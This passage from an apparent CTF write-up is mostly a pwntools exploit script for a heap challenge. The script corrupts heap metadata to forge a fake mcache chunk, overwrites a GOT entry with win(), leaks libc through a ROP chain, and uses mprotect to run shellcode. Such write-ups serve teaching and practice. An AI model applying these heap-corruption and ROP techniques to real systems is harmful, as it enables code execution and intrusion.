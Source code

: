    ```python
       while (pred := r64bit())>>56: add(midx, 2, b'hi')
       for _ in range(b):
           free(2)
           edit(0xf, pad(pack(r64())[:7]))
           free(0xe)
           edit(0xf, pad(pack(pred)[:7]))
           add(midxs.incrementer, 5, b'a'*0x10)
   # , free it + a chunk right in front of it, overflow into the real freed chunk's metadata to
   add(midxs.bugged, 2, b'') # Get the fake chunk allocated,
   free(2) # free it + the chunk overlapping with the fake chunk
   free(1) # prepare to overwrite freed mchunk metadata such that ->next points to a fake chunk on the mound_arena
   add(midxs.fakechunk, 2, b'overwrite!'.ljust(0x10,b'a') + fake_mcache_entry(sz=999, fd=mound_arena.mcache-0x10))
   add(midxs.overflower, 1, 'hi') # put the fake mound_arena chunk on the mcache
   add(midxs.overflower, 1, fit(mound_data.mcache, context.binary.got['setvbuf'])) # replace mound_arena->top with the GOT
   add(midxs.got_overwriter, 2, pack(context.binary.sym.win)) # overwrite a good function with win() (I use scanf() here)
   
   # win() will execute. Leak libc in the first cycle.
   R = ROP(context.binary)
   R.raw(0x48*b'a')
   R.puts(context.binary.got['read'])
   R.win()
   r.sendlineafter(';)\n', R.chain())
   context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
   # Using libc, change 0xbeef* to an rwx page, and jump to the shellcode that was allocated there earlier on.
   R = ROP(context.libc)
   R.raw(0x48*b'a')
   R.mprotect(mound_data.base, 0x400000, 7)
   R.call(mound_data.shellcode)
   r.sendlineafter(';)\n', R.chain())
   # get flag
   print(r.recvall())
   ```
   
6. This isn't meant as an attack against the 'originality' of CTF challenge makers. Good CTF challenge makers have to be CTF players themselves, and where else would you draw inspiration from, if not prior CTFs?

If any part of this writeup was interesting for you, try submitting a comment below; I've only just added utteranc.es to this site.
